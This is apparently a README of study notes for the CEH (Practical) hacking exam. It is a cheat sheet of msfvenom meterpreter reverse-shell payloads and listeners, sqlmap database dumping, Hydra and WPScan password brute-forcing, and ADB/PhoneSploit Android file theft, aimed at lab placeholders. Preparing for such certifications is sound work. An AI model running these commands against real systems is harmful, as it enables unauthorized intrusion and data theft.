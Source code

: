 <img src="CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour proctored exam.  Just a typical CTF Player/Hacker going back to basics 💻

# Network Hacking
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
</details>
<details>
  <summary>Common Port </summary>
   

* 22        - SSH
* 21        - FTP
* 389,3389  - RDP
* 3306      - MYSQL
</details>
</details>

# Web Hacking
<details>
  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
 
### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking

<details>
  <summary>Password Cracking</summary>

## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://ip:8080/CEH -u <user> -P ~/wordlists/password.txt
```
## Hydra
### SSH
```console
hydra -l username -P passlist.txt 192.168.0.100 ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.100 -s 221
```
* FTP Get command
```console
get flag.txt ~/Desktop/filepath/flag.txt
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt 192.168.0.7 telnet
```  
</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
<img src="Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "CT.png"/>
  
  * To install CrypTool 
  
  <img src = "CT2.png"/>
  <img src = "CT3.png"/>
  <img src = "CT4.png"/>
  <img src = "CT5.png"/>
  <img src = "CT6.png"/>
  <img src = "CT7.png"/>
  <img src = "CT8.png"/>
  <img src = "CT9.png"/>
  <img src = "CT10.png"/>
  <img src = "CT11.png"/>
  <img src = "CT12.png"/>
  <img src = "CT13.png"/>
  <img src = "CT14.png"/>
  <img src = "CT15.png"/>
  <img src = "CT16.png"/>
 </details>
 
# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

Final Words: Grab a cup of Tea and GRIND!!!

  <img src = "motivation.jpg"/>
